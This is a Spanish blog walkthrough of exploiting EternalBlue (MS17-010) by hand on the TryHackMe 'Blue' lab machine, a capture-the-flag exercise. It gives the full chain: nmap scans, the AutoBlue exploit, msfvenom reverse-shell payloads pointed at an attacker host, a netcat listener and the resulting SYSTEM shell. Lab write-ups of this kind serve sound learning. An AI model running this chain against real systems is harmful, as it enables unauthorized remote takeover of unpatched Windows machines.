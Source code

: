 ```yaml
---
title: EternalBlue - MS17-010 - Manual Exploitation
published: true
---
```


En esta entrada veremos como explotar de manera manual (GitHub) un Eternal Blue. Para ello he usado la máquina Blue de TryHackMe pero también se podría realizar con la de HackTheBox. No nos centraremos en la resolución de las preguntas que nos plantean ya que la mayoría se contestan al realizar la máquina mediante Metasploit.

# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:37 EDT
Initiating SYN Stealth Scan at 13:37
Scanning 10.10.64.35 [65535 ports]
Discovered open port 3389/tcp on 10.10.64.35
Discovered open port 445/tcp on 10.10.64.35
Discovered open port 139/tcp on 10.10.64.35
Discovered open port 135/tcp on 10.10.64.35
Discovered open port 49152/tcp on 10.10.64.35
Discovered open port 49158/tcp on 10.10.64.35
Discovered open port 49153/tcp on 10.10.64.35
Discovered open port 49159/tcp on 10.10.64.35
Discovered open port 49154/tcp on 10.10.64.35
Completed SYN Stealth Scan at 13:37, 13.81s elapsed (65535 total ports)
Nmap scan report for 10.10.64.35
Host is up, received user-set (0.050s latency).
Scanned at 2022-10-28 13:37:46 EDT for 13s
Not shown: 65156 closed tcp ports (reset), 370 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49159/tcp open  unknown       syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.95 seconds
           Raw packets sent: 70436 (3.099MB) | Rcvd: 65185 (2.607MB)
```

Realizaremos un escaneo del puerto 445 ya que sabemos que la máquina va dirigida a Eternal Blue. Nos reporta: 

```bash
❯ nmap -p445 -sCV 10.10.64.35 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:45 EDT
Nmap scan report for 10.10.64.35
Host is up (0.061s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| smb2-time: 
|   date: 2022-10-28T17:46:01
|_  start_date: 2022-10-28T17:32:02
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:f9:a0:56:45:49 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-28T12:46:01-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds
[1]    7547 segmentation fault  nmap -p445 -sCV 10.10.64.35 -oN targeted
```

Esto quiere decir que como estamos bajo a Windows 7 professional. Como el smb está expuesto (puerto 445) tenemos una vía potencial de acceso al sistema.

Con nmap podemos lanzar una serie de scripts, en este caso de la categoria Vuln, a la máquina víctima por el puerto 445:

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:49 EDT
Nmap scan report for 10.10.64.35
Host is up (0.051s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 15.52 seconds
[1]    8466 segmentation fault  nmap -script "vuln" -p445 10.10.64.35
```

Es vulnerable al Eternal Blue. Buscamos un exploit en github sobre la vulnerabilidad. En mi caso voy a utilizar el de <a href="https://github.com/3ndG4me/AutoBlue-MS17-010"> 3ndG4me.</a>

Hacemos un git clone para copiarnos el repositorio a nuestro sistema:

> git clone https://github.com/3ndG4me/AutoBlue-MS17-010

Para comprobar si podemos acceder al sistema mediante Eternal Blue usamos el checker:

```bash
❯ python eternal_checker.py 10.10.64.35
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Como nos conforma que el sistema no está parcheado podemos continuar con el proceso.

En la carpeta shellcode con chmod hacemos que shell_prep.sh sea ejecutable con:

> chmod +x shell_prep.sh 

Lo ejecutamos:

```bash
❯ sudo ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.8.4.179
LPORT you want x64 to listen on:
1234
LPORT you want x86 to listen on:
1234
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.8.4.179 LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.8.4.179 LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Creamod así sc_all.bin sc_x64.bin y algunos archivos más que podemos ejecutar dependiendo de la arquitectura del sistema Windows del que vamos a obtener acceso.

Ahora debemos usar netcat para estar en escucha por el puerto antes indicado.

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
```

En mi caso es un Windows 7 x64 bits por lo que ejecutaré sc_x64.bin junto con el exploit

```bash
❯ python eternalblue_exploit7.py 10.10.64.35 shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.8.4.179] from (UNKNOWN) [10.10.64.35] 49188
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Conseguimos acceso al sistema como nt authority\system

Muchas gracias por leer esta publicación, espero que te haya gustado!
